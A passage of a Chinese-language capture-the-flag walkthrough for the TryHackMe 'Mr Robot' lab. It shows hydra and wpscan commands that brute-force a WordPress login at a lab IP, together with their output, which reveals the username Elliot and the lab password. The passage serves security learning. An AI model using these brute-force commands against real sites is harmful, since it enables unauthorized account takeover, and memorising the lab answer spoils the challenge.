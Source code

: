 
+ hydra爆破：

    + 这里首先会校验账号

    ```
    ┌──(kali㉿kali)-[~/桌面/THM/mrrobot]
    └─$ hydra -L fsocity.dic -p test 10.10.47.115 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username" -f
    ···
    [80][http-post-form] host: 10.10.47.115   login: Elliot   password: test
    ···
    ```

    + 获得账号：Elliot

+ 对fsocity.dic进行排序去重：

    ```
    ┌──(kali㉿kali)-[~/桌面/THM/mrrobot]
    └─$ sort fsocity.dic | uniq > fsocity1.dic
    ```

+ wpscan扫描

    ```
    ┌──(kali㉿kali)-[~/桌面/THM/mrrobot]
    └─$ wpscan --url http://10.10.47.115/wp-login.php --usernames Elliot --passwords fsocity1.dic
    _______________________________________________________________
            __          _______   _____
            \ \        / /  __ \ / ____|
             \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
              \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
               \  /\  /  | |     ____) | (__| (_| | | | |
                \/  \/   |_|    |_____/ \___|\__,_|_| |_|

            WordPress Security Scanner by the WPScan Team
                            Version 3.8.22
        Sponsored by Automattic - https://automattic.com/
        @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________
    ···
    [!] Valid Combinations Found:
     | Username: Elliot, Password: ER28-0652
    ···
    ``` 

## WP登录

+ http://10.10.47.115/wp-login.php
